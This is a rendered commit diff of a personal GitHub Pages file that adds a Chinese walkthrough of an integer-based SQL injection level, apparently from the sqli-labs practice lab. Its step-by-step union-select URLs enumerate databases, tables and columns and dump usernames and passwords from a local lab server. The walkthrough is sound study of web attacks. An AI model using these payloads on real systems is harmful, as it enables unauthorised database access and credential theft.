

Before and after one commit to mochen072/github.io, a Markdown page: docs/SQLI.md, the part around the change printed below. Shown: that part at 80% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/docs/SQLI.md
+++ b/docs/SQLI.md
@@ -119,6 +119,83 @@ http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
 
 ### 第一关结束！！！！
 
+## <font color = #1E90FF>第二关-GET – 整型</font>
+**可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果**
+```
+ echo "your sql statement is ".$sql."<br>";
+```
+
+**1.添加id=1正常，id=1' 报错，报错，发现报错信息只有单引号，说明是整型注入。**
+```
+http://192.168.2.135/sqli/Less-1/?id=1'
+```
+  <figure class="thumbnails">
+    <img src="picture/Sqlibc/two/1.png"   >
+
+</figure>
+
+**2. 猜解字段数，测试到4的时候报错，说明字段数是3。**
+```
+http://192.168.2.135/sqli/Less-1/?id=1 order by 3--+
+```
+
+**3.确定显位数字，发现2,3均可回显**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,2,3 --+
+```
+
+  <figure class="thumbnails">
+    <img src="picture/Sqlibc/two/2.png"   >
+
+</figure>
+
+**3.获取当前数据库名，报错注入，数据库名为：security**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
+(select database()) ,
+3 --+
+```
+
+  <figure class="thumbnails">
+     <img src="picture/Sqlibc/two/3.png"   >
+
+</figure>
+
+**4.还可以获取所有的数据库名**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
+2,
+(select group_concat(schema_name) from information_schema.schemata)--+
+```
+
+
+**5.获取当前数据库security的表名**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
+2,
+(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+
+
+(security的hex编码是7365637572697479)
+```
+
+**6.获取表的列名**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
+2,
+(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
+```
+
+
+**7.获取字段数据**
+```
+http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,2,
+(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
+```
+
+
+**8.其他语句等等**
+
+### 第二关结束！！！！
 
 
 
````
Also changed, not shown: other parts of docs/SQLI.md (+2 -2 lines), docs/pkq.md (added, +57 -0 lines), docs/zjfx.md (added, +35 -0 lines), docs/picture/bp/1.png (added), 5 other files.
